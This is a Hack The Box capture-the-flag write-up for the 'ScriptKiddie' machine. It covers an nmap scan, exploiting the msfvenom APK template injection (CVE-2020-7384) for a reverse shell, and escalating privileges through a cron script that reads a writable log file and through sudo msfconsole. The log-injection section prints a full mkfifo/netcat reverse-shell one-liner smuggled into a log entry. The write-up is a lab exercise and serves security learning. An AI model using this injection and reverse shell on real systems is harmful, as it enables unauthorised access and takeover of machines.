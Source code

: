 ## Hackthebox.eu - ScriptKiddie
**February 7th, 2021**

This box was a web hosted script kiddies tool set. Utilizing known CVEs within the security tools it called on the back-end, we can get a reverse shell. From there we can abuse a poorly secured cronjob, to move laterally to another user who has password-less sudo configured for a tool that allows us to run commands.

### Quick Summary
* Craft a malicious android APK template for metasploit
* Upload template to the web front end and get a reverse shell
* Modify a log file to do bash command injection to get a second reverse shell
* Launch msfconsole with sudo, and drop to a ruby shell
* Read out the flag from ruby


#### Tools requried
Nothing fancy. a standard Ubuntu desktop should have everything you need by default

### Detailed steps
#### Port Scan
A portscan revealed a python web server on port 5000 and an active sshd service both running on an Ubuntu box of some kind.
```bash
$ nmap -sC -sV -oA nmap/init 10.10.10.226

 Nmap 7.91 scan initiated Sun Feb  7 11:01:09 2021 as: nmap -sC -sV -oA nmap/initial 10.10.10.226
Nmap scan report for 10.10.10.226
Host is up (0.040s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d\'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb  7 11:01:18 2021 -- 1 IP address (1 host up) scanned in 9.43 seconds
```


#### Web Server (:5000)
This web server was a front end to a bunch of hacking tools. Here's how it was laid out

* **nmap**: Puts the given IP into an nmap command and outputs the result. The input seems to be regex'd for IPs and I couldn't find any injection that worked.
* **sploits**: Searches for exploits by your given string. I tried command injection but it gives a warning that they will hack you back. This turns out to be important for getting root later.
* **payloads**: Generates meterpreter binaries for different platforms with an optional template. Only Android and windows seemed to work, while Linux threw an error.

##### CVE-2020-7384 (msfvenom APK template command injection)
The metasploit templates are binaries that are used as a frame to inject your payload into. Normally, you can use custom templates to help evade anti-virus and intrusion detection systems.

This CVE references the ability to gain command injection by crafting malicious APK templates for an android platform. I found a proof of concept for this attack, but it had a few issues I had to overcome. The resulting PoC I used can be found here: https://gist.github.com/lungdart/2aa3673a872e386ea5ddc36186727711

I used this tool to generate a malicious APK file, and uploaded it to the *payloads* section of the form. Listening with netcat gave me a reverse shell as the user ```kid```
```bash
kid@scriptkiddie:~/logs$ id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
```

Once I was in as the ```kid``` user, There was an existing SSH key that I stole to stabilize my connection to the box.

#### Privilege escalation to pwn
##### kid's home directory
```kid```'s home directory contain the source code for the website. The code for the searchsploit section showed that an attempt at command execution would have your IP written to the log file ```/home/kid/logs/hackers```, which was empty

```bash
kid@scriptkiddie:~$ cat logs/hackers

```

Taking a look at the home directory itself shows another user named ```pwn```

##### pwn's home directory
``pwn`` had a suspicious shell script that I had read access to called ```scanlosers.sh```. This script seemed to check the hackers log file from ```kid```'s home directory, and run nmaps on the target and recording the output. After it did this it would erase the file contents. Looking around showed that this script was running extremely often.

Because we had write access to ```/home/kid/logs/hackers```, we could craft an evil entry, that contained command injection instead of an IP. Then when the system ran ```/home/pwn/scanlosers.sh``` it would run my command as the ```pwn``` user, and give me a reverse shell as them. The evil log entry I came up with was ```[2021-02-07 17:57:52.187031] 1.1.1.1; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 5051 >/tmp/f;```. I ran a netcat listener and put that into the log file, and immediately was gifted with a second reverse shell.

#### Privilege escalation to root
Checking sudo shows that the ```pwn``` user has password-less sudo access for the msfconsole tool.
```bash
pwn@scriptkiddie:~$ sudo -l
User pwn may run the following commands:
    (root) NOPASSWD: /usr/bin/msfconsole
```

since msfconolse has an interactive ruby interpreter built in, we can launch that, then exec commands to read out the flag.
```bash
pwn@scriptkiddie:~$ sudo msfconsole
msf > irb
[*] Starting IRB shell...
```

```ruby
echo `cat /root/root.txt`
```

I submitted the flag and finished the box!
